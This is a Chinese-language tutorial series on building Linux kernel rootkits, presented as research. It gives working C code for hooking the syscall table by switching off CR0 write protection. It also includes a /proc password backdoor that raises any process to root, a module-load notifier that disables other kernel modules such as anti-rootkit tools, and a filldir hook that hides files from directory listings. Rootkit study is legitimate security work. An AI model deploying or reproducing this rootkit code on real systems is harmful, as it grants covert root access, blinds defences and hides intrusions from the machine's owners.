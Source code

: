 Linux Rootkit 研究
@@@@@@@@@@@@@@@@@@

Linux Rootkit 系列二：基于修改 `sys_call_table`_ 的系统调用挂钩
===============================================================

rectigu@gmail.com, 二〇一六年五月。

**FreeBuf 链接** ： http://www.freebuf.com/sectool/105713.html 。

前言： `《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
的作者似乎跑路了；留下的这个口锅，我试着背一下。
鉴于笔者知识能力上的不足，如有问题欢迎各位扔豆腐，不要砸砖头。

与第一篇文章作者所想象的不同，
本文不打算给大家介绍三种不同的系统调用挂钩技术，
相反，本文仅详细讲解最简单的系统调用挂钩方案，
并且基于这个方案实现最基本的文件监视工具。
这样，既可以让读者轻松上手进行实际应用，
又可以加深、巩固读者对 LKM_ 的理解，
同时还免去了一次学习多种挂钩方案的理论知识压力。

所以，本文力求以实验为核心，每一个步骤都可能有对应的实验代码。
代码仓库： https://github.com/NoviceLive/research-rootkit 。
代码在最新的 64 比特 Arch_ 与 Kali_ 上面测试正常。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

如果读者使用 tmux_ 或者类似的工具，
则可以垂直分割你的终端窗口，
一个窗口开一个 ``sudo dmesg -C && dmesg -w`` ，用于查看日志；
另一个窗口用来做其他操作，比如构建、加载内核模块。
不用 tmux_ 也没关系，开两个终端，各占半个屏幕。


第一部分：基于修改 `sys_call_table`_ 的系统调用挂钩
---------------------------------------------------

在系统调用挂钩技术中，最简单、最流行的方案是修改
`sys_call_table`_ ，
成员类型为函数指针的一维数组。

.. code-block:: c

   asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1] = {
   	/*
   	 * Smells like a compiler bug -- it doesn't work
   	 * when the & below is removed.
   	 */
   	[0 ... __NR_syscall_max] = &sys_ni_syscall,
   #include <asm/syscalls_64.h>
   };

要修改它，首先得拿到它在内存里的位置。
然后，由于 `sys_call_table`_ 所在的内存是有写保护的，
所以我们需要先去掉写保护，再做修改。

1. 获得 `sys_call_table`_ 的内存地址
++++++++++++++++++++++++++++++++++++

在综合考量了几种可选的获取方案之后，
笔者决定采用从内核起始地址开始暴力搜索内存空间的方案。
（ **但是这种方案有可能被欺骗** 。）

其他可能的方案有，一，从 `/boot/System.map`_ 中读取，
感兴趣的读者可以查阅
`Hooking the Linux System Call Table`_ ，
这篇文章便是使用这种方案来获取 `sys_call_table`_ 的地址的。

二，从使用了 `sys_call_table`_
的某些未导出函数的机器码里面进行特征搜索，
感兴趣的读者可以查阅
`Kernel-Land Rootkits`_ ，
作者花了几张 slides
阐述了如何从导出的函数中获取使用了 `sys_call_table`_ 的未导出函数，
进而搜索那个未导出函数的机器码，
得到 `sys_call_table`_ 的地址；等等。

值得指出的是，
感兴趣的读者在测试这些本文未涉及的方案时，
如果遇到了疑惑或者困难，也可以与笔者联系、交流。

直接看代码。

.. code-block:: c

   unsigned long **
   get_sys_call_table(void)
   {
     unsigned long **entry = (unsigned long **)PAGE_OFFSET;

     for (;(unsigned long)entry < ULONG_MAX; entry += 1) {
       if (entry[__NR_close] == (unsigned long *)sys_close) {
           return entry;
         }
     }

     return NULL;
   }

`PAGE_OFFSET`_ 是内核内存空间的起始地址。
因为 `sys_close`_ 是导出函数
（需要指出的是， ``sys_open`` 、 ``sys_read`` 等并不是导出的），
我们可以直接得到他的地址；因为系统调用号
（也就是 `sys_call_table`_ 这个一维数组的索引）
在同一 ABI_ （x86 跟 x64 不是同一 ABI）上具有高度的后向兼容性，
更重要的是，我们可以直接使用这个索引（代码中的 ``__NR_close`` ）！

从内核内存的起始地址开始，
逐一尝试每一个指针大小的内存：把它当成是 `sys_call_table`_ 的地址，
用某个系统调用的编号（也就是索引）访问数组中的成员，
如果访问得到的值刚好是是这个系统调用号所对应的系统调用的地址，
那么我们就认为当前尝试的这块指针大小的内存就是我们要找的
`sys_call_table`_ 的地址。

.. image:: images/sys_call_table.png

2. 关闭写保护
+++++++++++++

写保护指的是写入只读内存时出错。
这个特性可以通过 CR0_ 寄存器控制：开启或者关闭，
只需要修改一个比特，也就是从 0 开始数的第 16 个比特。

看代码。我们可以使用 `read_cr0`_ / `write_cr0`_
来读取 / 写入 CR0_ 寄存器，
免去我们自己写内联汇编的麻烦。

函数原型。

.. code-block:: c

   static inline unsigned long read_cr0(void);

   static inline void write_cr0(unsigned long x);

关闭写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 0。

.. code-block:: c

   void
   disable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     clear_bit(16, &cr0);
     write_cr0(cr0);
   }

开启写保护的源代码：将 CR0_ 寄存器从 0 开始数的第 16 个比特置为 1。

.. code-block:: c

   void
   enable_write_protection(void)
   {
     unsigned long cr0 = read_cr0();
     set_bit(16, &cr0);
     write_cr0(cr0);
   }


在设置或者清除某个比特，我们使用了 `set_bit`_ 与 `clear_bit`_ 。
它们是 Linux 内核提供给内核模块使用的编程接口，简单易懂，
同时还免去了我们自己写那种很难读的位运算的痛苦。

函数原型。

.. code-block:: c

   static __always_inline void
   set_bit(long nr, volatile unsigned long *addr);

   static __always_inline void
   clear_bit(long nr, volatile unsigned long *addr);

.. image:: images/write_protection.png

3. 修改 `sys_call_table`_
+++++++++++++++++++++++++

一维数组赋值，当之无愧最简单的方案。
当然，我们需要先把真正的值保存好，以备后面之需。

.. code-block:: c

   disable_write_protection();
   real_open = (void *)sys_call_table[__NR_open];
   sys_call_table[__NR_open] = (unsigned long*)fake_open;
   real_unlink = (void *)sys_call_table[__NR_unlink];
   sys_call_table[__NR_unlink] = (unsigned long*)fake_unlink;
   real_unlinkat = (void *)sys_call_table[__NR_unlinkat];
   sys_call_table[__NR_unlinkat] = (unsigned long*)fake_unlinkat;
   enable_write_protection();

4. 恢复
+++++++

.. code-block:: c

   disable_write_protection();
   sys_call_table[__NR_open] = (unsigned long*)real_open;
   sys_call_table[__NR_unlink] = (unsigned long*)real_unlink;
   sys_call_table[__NR_unlinkat] = (unsigned long*)real_unlinkat;
   enable_write_protection();


第二部分：基于系统调用挂钩的初级文件监视
----------------------------------------

监视文件的创建与删除。
我们挂钩 `sys_open`_, `sys_unlink`_, `sys_unlinkat`_ 这三个函数，
并且在我们的钩子函数把操作到的文件名打印出来，
然后把控制交给真正的系统调用处理。

1. `sys_open`_ 的钩子函数： ``fake_open``
+++++++++++++++++++++++++++++++++++++++++

考虑到在系统运行时，对文件的读写操作从未中断，
这里只打印了进行创建操作的文件名，准确地说是，
`sys_open`_ 的 ``flags`` 中包含 `O_CREAT`_ 。

.. code-block:: c

   asmlinkage long
   fake_open(const char __user *filename, int flags, umode_t mode)
   {
     if ((flags & O_CREAT) && strcmp(filename, "/dev/null") != 0) {
       printk(KERN_ALERT "open: %s\n", filename);
     }

     return real_open(filename, flags, mode);
   }

注：这里的 `strcmp`_ 也是内核提供的。

2. `sys_unlink`_ 与 `sys_unlinkat`_ 的钩子函数： ``fake_unlink`` 与 ``fake_unlinkat``
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

简单处理，直接打印路径名。

.. code-block:: c

   asmlinkage long
   fake_unlink(const char __user *pathname)
   {
     printk(KERN_ALERT "unlink: %s\n", pathname);

     return real_unlink(pathname);
   }

   asmlinkage long
   fake_unlinkat(int dfd, const char __user * pathname, int flag)
   {
     printk(KERN_ALERT "unlinkat: %s\n", pathname);

     return real_unlinkat(dfd, pathname, flag);
   }

3. 测试我们的文件监视工具
+++++++++++++++++++++++++

初级的文件监视就到这了，以后我们在做进一步的改进与完善。

.. image:: images/fsmon.png


第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `The Linux Kernel API`_
- `How the Linux kernel handles a system call`_
- CR0_

2. 延伸阅读
+++++++++++

- `Hooking the Linux System Call Table`_
- `Kernel-Land Rootkits`_


.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html

.. _Hooking the Linux System Call Table: https://tnichols.org/2015/10/19/Hooking-the-Linux-System-Call-Table/
.. _Kernel-Land Rootkits: http://www.kernelhacking.com/rodrigo/docs/StMichael/kernel-land-rootkits.pdf

.. _/boot/System.map: https://en.wikipedia.org/wiki/System.map
.. _LKM: https://en.wikipedia.org/wiki/Loadable_kernel_module
.. _ABI: https://en.wikipedia.org/wiki/Application_binary_interface
.. _CR0: https://en.wikipedia.org/wiki/Control_register#CR0

.. _The Linux Kernel API: https://www.kernel.org/doc/htmldocs/kernel-api/index.html
.. _set_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-set-bit.html
.. _clear_bit: https://www.kernel.org/doc/htmldocs/kernel-api/API-clear-bit.html
.. _strcmp: https://www.kernel.org/doc/htmldocs/kernel-api/API-strcmp.html

.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _read_cr0: http://lxr.free-electrons.com/ident?i=read_cr0
.. _write_cr0: http://lxr.free-electrons.com/ident?i=write_cr0
.. _sys_close: http://lxr.free-electrons.com/ident?i=sys_close
.. _sys_open: http://lxr.free-electrons.com/ident?i=sys_open
.. _sys_unlink: http://lxr.free-electrons.com/ident?i=sys_unlink
.. _sys_unlinkat: http://lxr.free-electrons.com/ident?i=sys_unlinkat
.. _sys_call_table: http://lxr.free-electrons.com/ident?i=sys_call_table
.. _PAGE_OFFSET: http://lxr.free-electrons.com/ident?i=PAGE_OFFSET
.. _O_CREAT: http://lxr.free-electrons.com/ident?i=O_CREAT

.. _Arch: https://www.archlinux.org/
.. _Kali: https://www.kali.org/

.. _How the Linux kernel handles a system call:  https://0xax.gitbooks.io/linux-insides/content/SysCall/syscall-2.html

.. _tmux: https://tmux.github.io/


Linux Rootkit 系列三：实例详解 Rootkit 必备的基本功能
=====================================================

rectigu@gmail.com, 二〇一六年六月。

**FreeBuf 链接** ： http://www.freebuf.com/articles/system/107829.html 。

前言
----

**鉴于笔者知识能力上的不足，如有疏忽，欢迎纠正。**

本文所需的完整代码位于笔者的代码仓库：
https://github.com/NoviceLive/research-rootkit。

测试建议： **不要在物理机测试！不要在物理机测试！
不要在物理机测试！**

概要
----

在 `上一篇文章`_ 中笔者详细地阐述了基于直接修改系统调用表
（即 ``sys_call_table`` / ``ia32_sys_call_table`` ）的挂钩，
文章强调以代码与动手实验为核心。

长话短说，本文也将以同样的理念带领读者一一缕清
Rootkit 必备的基本功能，
包括提供 root 后门，控制内核模块的加载，
**隐藏文件** （提示：这是文章的重点与核心内容），
隐藏进程，隐藏网络端口，隐藏内核模块等。

短话长说，本文不打算给大家介绍剩下的几种不同的系统调用挂钩技术：
比如说，修改 32 位系统调用（ 使用 ``int $0x80`` ）
进入内核需要使用的 `IDT`_
（ `Interrupt descriptor table`_ / 中断描述符表） 项，
修改 64 位系统调用（ 使用 ``syscall`` ）需要使用的 `MSR`_
（ `Model-specific register`_ / 模型特定寄存器，具体讲，
64 位系统调用派遣例程的地址位于 `MSR_LSTAR`_ ）；
又比如基于修改系统调用派遣例程
（对 64 位系统调用而言也就是 ``entry_SYSCALL_64`` ） 的钩法；
又或者，内联挂钩 / `Inline Hooking`_ 。

这些钩法我们以后再谈，现在，我们先专心把一种钩法玩出花样。
`上一篇文章`_ 讲的钩法，也就是函数指针的替换，并不局限于钩系统调用。
本文会将这种方法应用到其他的函数上。

.. _上一篇文章: http://www.freebuf.com/sectool/105713.html


第一部分：Rootkit 必备的基本功能
--------------------------------

**站稳，坐好。**

1. 提供 root 后门
+++++++++++++++++

这个特别好讲，笔者就拿提供 root 后门这个功能开刀了。

大家还记得前段时间 `全志`_ （ `AllWinner`_ ）
提供的 Linux 内核里面的 root 后门吧，
不了解的可以看一下 `FB`_ 之前的文章，
`外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门`_ 。

我们拿 `后门的那段源代码`_ 改改就好了。

具体说来，逻辑是这样子的，
我们的内核模块在 `/proc`_ 下面创建一个文件，
如果某一个进程向这个文件写入特定的内容
（读者可以把这个“特定的内容”理解成口令或者密码），
我们的内核模块就把这个进程的 uid_ 与 euid_ 等等全都设置成 0，
也就是 root 账号的。这样，这个进程就拥有了 root 权限。

不妨拿 `全志`_ root 后门这件事来举个例子，
在运行有后门的 Linux 内核的设备上，
进程只需要向 ``/proc/sunxi_debug/sunxi_debug`` 写入 ``rootmydevice``
就可以获得 root 权限。

另外，我们的内核模块创建的那个文件显然是要隐藏掉的。
考虑到现在还没讲文件隐藏（本文后面会谈文件隐藏），所以
这一小节的实验并不包括将创建出来的文件隐藏掉。

下面我们看看怎样在内核模块里创建 `/proc`_ 下面的文件。

`全志`_ root 后门代码里用到的 ``create_proc_entry``
是一个过时了的 API_ ，而且在新内核里面它已经被去掉了。
考虑到笔者暂时还不考虑兼容老的内核，
所以我们直接用新的 API_ ， ``proc_create`` 与 ``proc_remove`` ，
分别用于创建与删除一个 `/proc`_ 下面的项目。

函数原型如下。

.. code-block:: c

   # include <linux/proc_fs.h>

   static inline struct proc_dir_entry *
   proc_create(const char *name, umode_t mode, struct proc_dir_entry *parent, const struct file_operations *proc_fops);

   void
   proc_remove(struct proc_dir_entry *entry);

``proc_create`` 参数的含义依次为，文件名字，文件访问模式，
父目录，文件操作函数结构体。
我们重点关心第四个参数： ``struct file_operations``
里面是一些函数指针，即对文件的各种操作的处理函数，
比如，读（ ``read`` ）、写（ ``write`` ）。
该结构体的定义位于 ``linux/fs.h`` ，后面讲文件隐藏的时候还会遇到它。

创建与删除一个 `/proc`_ 文件的代码示例如下。

.. code-block:: c

   struct proc_dir_entry *entry;

   entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);

   proc_remove(entry);


实现我们的需求只需要提供一个写操作（ ``write`` ）
的处理函数就可以了，如下所示。

.. code-block:: c

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp);

   struct file_operations proc_fops = {
       .write = write_handler
   };

   ssize_t
   write_handler(struct file * filp, const char __user *buff,
                 size_t count, loff_t *offp)
   {
       char *kbuff;
       struct cred* cred;

       // 分配内存。
       kbuff = kmalloc(count, GFP_KERNEL);
       if (!kbuff) {
           return -ENOMEM;
       }

       // 复制到内核缓冲区。
       if (copy_from_user(kbuff, buff, count)) {
           kfree(kbuff);
           return -EFAULT;
       }
       kbuff[count] = (char)0;

       if (strlen(kbuff) == strlen(AUTH) &&
           strncmp(AUTH, kbuff, count) == 0) {

           // 用户进程写入的内容是我们的口令或者密码，
           // 把进程的 ``uid`` 与 ``gid`` 等等
           // 都设置成 ``root`` 账号的，将其提权到 ``root``。
           fm_alert("%s\n", "Comrade, I will help you.");
           cred = (struct cred *)__task_cred(current);
           cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
           cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
           fm_alert("%s\n", "See you!");
       } else {
           // 密码错误，拒绝提权。
           fm_alert("Alien, get out of here: %s.\n", kbuff);
       }

       kfree(buff);
       return count;
   }

实验
****

编译并加载我们的内核模块，以 Kali_ 为例：
Kali_ 默认只有 root 账号，
我们可以用 ``useradd <username>``
添加一个临时的非 root 账号来运行提权脚本（ ``r00tme.sh`` ）做演示。
效果参见下图，
可以看到在提权之前用户的 uid_ 是 1000，
也就是普通用户，不能读取 ``/proc/kcore`` ；
提权之后， uid_ 变成了 0，也就是超级用户，可以读取 ``/proc/kcore`` 。

.. image:: images/root-backdoor.png



.. _后门的那段源代码: https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41

2. 控制内核模块的加载
+++++++++++++++++++++

想象一下，在一个月黑风高的夜晚，邪恶的读者（误：善良的读者）
通过某种手段（可能的经典顺序是 RCE_ + LPE_ ，
Remote Code Execution / 远程代码执行
+ Local Privilege Escalation / 本地特权提升）
得到了某台机器的 root 命令执行；
进而执行 Rootkit 的 Dropper 程序释放并配置好 Rootkit，
让其进入工作状态。

这时候，Rootkit 首先应该做的并不是提供 root 后门；
而是，一方面，我们应该尝试把我们进来的门（漏洞）堵上，
避免 **其他** 不良群众乱入，另一方面，我们希望能控制好其他程序
（这个其他程序主要是指反 Rootkit 程序与 **其他** 不良 Rootkit），
使其不加载 **其他** 不良内核模块与我们在内核态血拼。

理想状态下，我们的 Rootkit 独自霸占内核态，
阻止所有不必要的代码
（尤其是反 Rootkit 程序与 **其他** 不良 Rootkit）在内核态执行。
当然，理想是艰巨的，所以我们先做点容易的，控制内核模块的加载。

控制内核模块的加载，我们可以从通知链机制下手。
通知链的详细工作机制读者可以查看参考资料；
简单来讲，当某个子系统或者模块发生某个事件时，
该子系统主动遍历某个链表，
而这个链表中记录着其他子系统或者模块注册的事件处理函数，
通过传递恰当的参数调用这个处理函数达到事件通知的目的。


具体来说，我们注册一个模块通知处理函数，
在模块完成加载之后、开始初始化之前，
即模块状态为 ``MODULE_STATE_COMING`` ，
将其初始函数掉包成一个什么也不做的函数。
这样一来，模块不能完成初始化，也就相当于残废了。

笔者决定多读读代码，少讲理论，
所以我们先简要分析一下内核模块的加载过程。
相关代码位于内核源码树的 ``kernel/module.c`` 。
我们从 ``init_module`` 开始看。

.. code-block:: c

   SYSCALL_DEFINE3(init_module, void __user *, umod,
            unsigned long, len, const char __user *, uargs)
   {
        int err;
        struct load_info info = { };

        // 检查当前设置是否允许加载内核模块。
        err = may_init_module();

        if (err)
            return err;

        pr_debug("init_module: umod=%p, len=%lu, uargs=%p\n",
               umod, len, uargs);

        // 复制模块到内核。
        err = copy_module_from_user(umod, len, &info);
        if (err)
            return err;

        // 交给 ``load_module`` 进一步处理。
        return load_module(&info, uargs, 0);
   }

模块加载的主要工作都是 ``load_module`` 完成的，这个函数比较长，
这里只贴我们关心的一小段。

.. code-block:: c

   static int load_module(struct load_info *info, const char __user *uargs,
               int flags)
   {
        // 这儿省略若干代码。

        /* Finally it's fully formed, ready to start executing. */
        // 模块已经完成加载，可以开始执行了（但是还没有执行）。
        err = complete_formation(mod, info);
        if (err)
            goto ddebug_cleanup;

        // 我们注册的通知处理函数会在 ``prepare_coming_module`` 的
        // 时候被调用，完成偷天换日。在下面我们还会分析一下这个函数。
        err = prepare_coming_module(mod);
        if (err)
            goto bug_cleanup;

        // 这儿省略若干代码。

        // 在 ``do_init_module`` 里面，模块的初始函数会被执行。
        // 然而在这个时候，我们早就把他的初始化函数掉包了（/偷笑）。
        return do_init_module(mod);

        // 这儿省略若干代码：错误时释放资源等。
   }

.. code-block:: c

   static int prepare_coming_module(struct module *mod)
   {
        int err;

        ftrace_module_enable(mod);
        err = klp_module_coming(mod);
        if (err)
            return err;

        // 就是这儿！调用通知链中的通知处理函数。
        // ``MODULE_STATE_COMING`` 会原封不动地传递给我们的处理函数，
        // 我们的处理函数只需处理这个通知。
        blocking_notifier_call_chain(&module_notify_list,
                         MODULE_STATE_COMING, mod);
        return 0;
   }

说的具体点，
我们注册的通知链处理函数是在 ``notifier_call_chain``
函数里被调用的，调用层次为： ``blocking_notifier_call_chain`` ->
``__blocking_notifier_call_chain`` -> ``notifier_call_chain`` 。
有疑惑的读者可以细致地看看这部分代码，
位于内核源码树的 ``kernel/notifier.c`` 。

代码分析告一段落，接下来我们看看如何注册模块通知处理函数。
用于描述通知处理函数的结构体是 ``struct notifier_block`` ，
定义如下 。

.. code-block:: c

   typedef  int (*notifier_fn_t)(struct notifier_block *nb,
                unsigned long action, void *data);

   struct notifier_block {
        notifier_fn_t notifier_call;
        struct notifier_block __rcu *next;
        int priority;
   };

注册或者注销模块通知处理函数可以使用 ``register_module_notifier``
或者 ``unregister_module_notifier`` ，函数原型如下。

.. code-block:: c

   int
   register_module_notifier(struct notifier_block *nb);

   int
   unregister_module_notifier(struct notifier_block *nb);

编写一个通知处理函数，然后填充 ``struct notifier_block`` 结构体，
最后使用 ``register_module_notifier`` 注册就可以了。代码片段如下。

.. code-block:: c

   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data);

   struct notifier_block nb = {
       .notifier_call = module_notifier,
       .priority = INT_MAX
   };

上面的代码是声明处理函数并填充所需结构体；
下面是处理函数具体实现。

.. code-block:: c

   int
   fake_init(void);
   void
   fake_exit(void);


   int
   module_notifier(struct notifier_block *nb,
                   unsigned long action, void *data)
   {
       struct module *module;
       unsigned long flags;
       // 定义锁。
       DEFINE_SPINLOCK(module_notifier_spinlock);

       module = data;
       fm_alert("Processing the module: %s\n", module->name);

       //保存中断状态加锁。
       spin_lock_irqsave(&module_notifier_spinlock, flags);
       switch (module->state) {
       case MODULE_STATE_COMING:
           fm_alert("Replacing init and exit functions: %s.\n",
                    module->name);
           // 偷天换日：篡改模块的初始函数与退出函数。
           module->init = fake_init;
           module->exit = fake_exit;
           break;
       default:
           break;
       }

       // 恢复中断状态解锁。
       spin_unlock_irqrestore(&module_notifier_spinlock, flags);

       return NOTIFY_DONE;
   }


   int
   fake_init(void)
   {
       fm_alert("%s\n", "Fake init.");

       return 0;
   }


   void
   fake_exit(void)
   {
       fm_alert("%s\n", "Fake exit.");

       return;
   }

实验
****

测试时我们还需要构建另外一个简单的模块（ ``test`` ）来测试，
从下图可以看到在加载用于控制模块加载的内核模块（ ``komonko`` ）
之前， ``test`` 的初始函数与退出函数都正常的执行了；
在加载 ``komonko`` 之后， 无论是加载 ``test`` 还是卸载 ``test`` ，
它的初始函数与退出函数都没有执行，
执行的是我们掉包后的初始函数与退出函数。

.. image:: images/komon.png

3. 隐藏文件
+++++++++++

说好的重点内容文件隐藏来了。
不过说到文件隐藏，我们不妨先看看文件遍历的实现，
也就是系统调用 ``getdents`` / ``getdents64`` ，
简略地浏览它在内核态服务函数（sys_getdents）的源码
（位于 ``fs/readdir.c`` ），我们可以看到如下调用层次，
``sys_getdents`` -> ``iterate_dir``
-> ``struct file_operations`` 里的 ``iterate``
-> 这儿省略若干层次
-> ``struct dir_context`` 里的 ``actor`` ，也就是 ``filldir`` 。

``filldir`` 负责把一项记录（比如说目录下的一个文件或者一个子目录）
填到返回的缓冲区里。如果我们钩掉 ``filldir`` ，
并在我们的钩子函数里对某些特定的记录予以直接丢弃，
不填到缓冲区里，上层函数与应用程序就收不到那个记录，
也就不知道那个文件或者文件夹的存在了，也就实现了文件隐藏。

具体说来，我们的隐藏逻辑如下：
篡改根目录（也就是“/”）的 ``iterate`` 为我们的假 ``iterate`` ，
在假函数里把 ``struct dir_context`` 里的 ``actor`` 替换成我们的
假 ``filldir`` ，假 ``filldir`` 会把需要隐藏的文件过滤掉。

下面是假 ``iterate`` 与 假 ``filldir`` 的实现。

.. code-block:: c

   int
   fake_iterate(struct file *filp, struct dir_context *ctx)
   {
       // 备份真的 ``filldir``，以备后面之需。
       real_filldir = ctx->actor;

       // 把 ``struct dir_context`` 里的 ``actor``，
       // 也就是真的 ``filldir``
       // 替换成我们的假 ``filldir``
       *(filldir_t *)&ctx->actor = fake_filldir;

       return real_iterate(filp, ctx);
   }


   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
           // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
           fm_alert("Hiding: %s", name);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 如果不是需要隐藏的文件，
       // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }


钩某个目录的 ``struct file_operations`` 里的函数，
笔者写了一个通用的宏。

.. code-block:: c

   # define set_f_op(op, path, new, old)                       \
       do {                                                    \
           struct file *filp;                                  \
           struct file_operations *f_op;                       \
                                                               \
           fm_alert("Opening the path: %s.\n", path);          \
           filp = filp_open(path, O_RDONLY, 0);                \
           if (IS_ERR(filp)) {                                 \
               fm_alert("Failed to open %s with error %ld.\n", \
                        path, PTR_ERR(filp));                  \
               old = NULL;                                     \
           } else {                                            \
               fm_alert("Succeeded in opening: %s\n", path);   \
               f_op = (struct file_operations *)filp->f_op;    \
               old = f_op->op;                                 \
                                                               \
               fm_alert("Changing iterate from %p to %p.\n",   \
                        old, new);                             \
               disable_write_protection();                     \
               f_op->op = new;                                 \
               enable_write_protection();                      \
           }                                                   \
       } while(0)


实验
****

实验时，笔者随（gu）手（yi）用来隐藏的文件名： ``032416_525.mp4`` 。
从下图我们可以看到，在加载我们的内核模块（ ``fshidko`` ）之前，
``test`` 目录下的 ``032416_525.mp4`` 是可以列举出来的；
但是加载 ``fshidko`` 之后就看不到了，并且在 ``dmesg`` 的日志里，
我们可以看到 ``fshidko`` 打印的隐藏了这个文件的信息。

.. image:: images/fshid.png

选读内容：相关内核源码的简略分析
********************************

.. code-block:: c

   SYSCALL_DEFINE3(getdents, unsigned int, fd,
            struct linux_dirent __user *, dirent, unsigned int, count)
   {
        // 这儿省略若干代码。

        struct getdents_callback buf = {
            .ctx.actor = filldir, // 最后的接锅英雄。
            .count = count,
            .current_dir = dirent
        };

        // 这儿省略若干代码。

        // 跟进 ``iterate_dir``，
        // 可以看到它是通过 ``struct file_operations`` 里
        // ``iterate`` 完成任务的。
        error = iterate_dir(f.file, &buf.ctx);

        // 这儿省略若干代码。

        return error;
   }

   int iterate_dir(struct file *file, struct dir_context *ctx)
   {
        struct inode *inode = file_inode(file);
        int res = -ENOTDIR;

        // 如果 ``struct file_operations`` 里的 ``iterate``
        // 为 ``NULL``，返回 ``-ENOTDIR`` 。
        if (!file->f_op->iterate)
            goto out;

        // 这儿省略若干代码。

        res = -ENOENT;
        if (!IS_DEADDIR(inode)) {
            ctx->pos = file->f_pos;
            // ``iterate_dir`` 把锅甩给了
            // ``struct file_operations`` 里的 ``iterate``，
            // 对这个 ``iterate`` 的分析请看下面。
            res = file->f_op->iterate(file, ctx);
            file->f_pos = ctx->pos;
            // 这儿省略若干代码。
        }
        // 这儿省略若干代码。
   out:
        return res;
   }

这一层一层的剥开，
我们来到了 ``struct file_operations`` 里面的 ``iterate`` ，
这个 ``iterate`` 在不同的文件系统有不同的实现，
下面（位于 ``fs/ext4/dir.c`` ）
是针对 ext4_ 文件系统的 ``struct file_operations`` ，
